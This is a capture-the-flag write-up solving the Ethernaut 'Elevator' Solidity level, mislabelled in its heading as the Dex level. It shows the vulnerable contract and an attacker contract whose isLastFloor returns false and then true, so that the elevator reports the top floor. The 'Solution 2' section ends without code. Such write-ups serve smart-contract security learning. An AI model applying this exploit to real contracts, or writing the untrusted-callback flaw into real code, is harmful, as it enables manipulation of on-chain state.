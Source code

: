 # Ethernaut Dex solution
## Problem
Get to the top of this Elevator
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

## Explaination
+ So in Elevator contract, we can see that we have no way to get the top, despite how high floor the input.
+ But clearly is the isLastFloor(uint) is the thing we need to care about.
+ It have been call 2 time (not 1). First for confirm this is not top floor, second to reassign the top variable ?
+ Normally when it fail, we dont need to reassign the variable, but here it does. 
+ So I think about the funtion return value different call to achieve the top floor.

## Solution 1
So when we break all the information we need, the solution is really clearly :
1. I made a middle contract to override the isLastFloor()
2. This function return false in the first call, return true from second calls. 
3. Then from this contract I call to the Elevator.goTo(1) to get the top floor!.

Here is the code:
```solidity
contract middleElevator {

  bool firstCall = true;
  function isLastFloor(uint _floor) external returns (bool){

    if(firstCall){
      firstCall = false;
      return false;
    }
    return true;
  }

  function attack(address _victim) public {
    Elevator(_victim).goTo(1);
  }
}
```

## Solution 2
+ In offical website said that, the optimize way than change variable state is using sth like gasleft().
+ So here my solution with it




